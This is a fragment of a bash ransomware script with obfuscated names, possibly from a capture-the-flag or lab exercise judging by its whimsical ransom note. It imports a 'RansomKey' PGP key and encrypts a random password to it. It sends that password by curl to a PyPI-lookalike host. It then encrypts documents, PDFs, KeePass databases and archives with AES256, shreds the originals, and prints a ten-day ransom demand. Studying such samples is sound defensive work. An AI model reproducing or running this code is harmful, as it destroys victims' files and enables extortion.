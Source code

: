 ```
        HZmTU9nblorbnRFNVdhSWZlCjBCdzlMK05OaTloV04vODlnMG9BeDNDVksybVVPUUJ3Z3NBR1kvdFdjc3lGc3YwWlRBLzczRXg0U05VMXdtUG0KeDNheVVsTjhhRENPMlh
        aanBpMitLY0NOV2hpYmFKbWp5SkZzK3ZIbzJ6TlpDaExGQWtObmZzSHczdHdTU1ZNQQovck56UE0zU2xhb2QvK2dDY0xEUEh0Y0xpcGF3RXlHcWRtd0hBakpTaEt4eFJpa
        G1YbzVoRjc1bUF3ckNSL2g5Ck1zb0phOW5DMDF5NXBMemZ4c1ZZRzBneXhyamdLVEpGcElCWDJ5SmtPSHlDMndrWUg2aVZxbDExMnRmOHpNZ3gKYWFmQnFqenNMZWNzcXZ
        zYzA5SHRnZnpWZVM1bXpUN2dLajMxeXNuNjZxMCtmOVBXREJ5RzF3aHVUUUFSQVFBQgppUUcyQkJnQkNnQWdGaUVFRldlak1OSmpVSTN5Q0FCSS8wY05HNUtVWWxZRkFtU
        GExL3NDR3d3QUNna1EvMGNOCkc1S1VZbFpBOUF3QXRNOTVITk5QcWVqR0RwZmhmSUhWdy9HZkhKaGRpeUQ2NXJxWE5XckZFdzVJYVpVeWl0WUMKUFVPbmE3bGtFSW05aEk
        yaVpKc04vWEVnMWw5TVhpRzBHTzRqTjhvT0ZybnNHb3NNbUNJS2p3eDR5US9oTndKNQpuM3Fvb1cvRlErQTRQNmkvZDJERGtZK2NEdDhpUm1LTUhLa3dZcU9VV0hob2wwT
        3JwT1lYUUIrTjdwSFg5dCtaCld0NjU5YkxpUzRlcGt6YzRDUm9OSHZhZnY0bFdKaGJtWnowSitFd0U2QlBoNWN4WDA3aUEwbDdobjBQSW1jZ0gKKzdUL0xlZWZseHNKeXp
        iUWlXakd0UC9Ia2ZpbGg5ZStjSjZWcjlsNSs5SEFHaVB1L0JWK05qcTdCb2Mwc0lUKwpLbGFkVzJoUFV1WnQyeSsxaWg3NUtrZGdWb3k0amhhMENsTE9aQ1ZtODhNTXRLW
        XJ0S2ttZUkrMUtJVFE1NWhGCmRuYWZtaWdxcjB5M0dVTVBseFRRVmR5ZElnRHNzSXhWdlptWG8rd3lNbE4vL0hTS1Q5ZnpwOHhQL1g5bjhZWDcKcmZ1SkdBd3JKbWVLVFd
        HRWhrOUdOLzk2RTV6N2JOS2RQcWI5WHN3enF4QjMvVTBPWGRHemNpK1h6VURVVVI5cwo3S2dCZ3VXY0xXYWUKPXFqVzcKLS0tLS1FTkQgUEdQIFBVQkxJQyBLRVkgQkxPQ
        0stLS0tLQ=="
        echo $tljyVe4o7K3yOdj | base64 --decode | gpg --import
        echo -e "5\ny\n" | gpg --command-fd 0 --edit-key "RansomKey" trust
}

MMYPE1MNIGuGPBmyCUo6() {
        DhQ52B6UugM1WcX=`strings /dev/urandom | grep -o '[[:alnum:]]' | head -n 16 | tr -d '\n'`
        echo $DhQ52B6UugM1WcX > RxgXlDqP0h3baha
        gpg --batch --yes -r "RansomKey" -o qgffrqdGlfhrdoE -e RxgXlDqP0h3baha 
        shred -u RxgXlDqP0h3baha
        curl --request POST --data-binary "@qgffrqdGlfhrdoE" https://files.pypi-install.com/packages/recv.php

        for i in *.txt *.doc *.docx *.pdf *.kdbx *.gz *.rar;
        do
                if [[ ${i} != *"*."* ]];then
                        echo $DhQ52B6UugM1WcX | gpg --batch --yes -o "$i".a59ap --passphrase-fd 0 --symmetric --cipher-algo AES256 "$i" 2>/dev/null
                        shred -u "$i" 2>/dev/null
                fi
        done

        unset DhQ52B6UugM1WcX
}

v0nPa1GinWR3Dr27cnmT() {
    cat <<- EOF
                --------------------------------------------------------------------------
                YOUR FILES ARE ENCRYPTED BY AN EXTRATERRESTRIAL RANSOMWARE
                * What happened?
                        Most of your files are no longer accessible because they have been encrypted. Do not waste your time trying to find a way to decrypt them; it is impossible without our private key.
                * How to recover my files?
                        Recovering your files is 100% guaranteed if you follow our instructions. One file per infection can be decrypted as proof of work. To decrypt the rest, you must return the relic back to its previous rightful owners.
                * Is there a deadline?
                        Of course, there is. You have ten days left. Do not miss this deadline.
                --------------------------------------------------------------------------
        EOF
}

```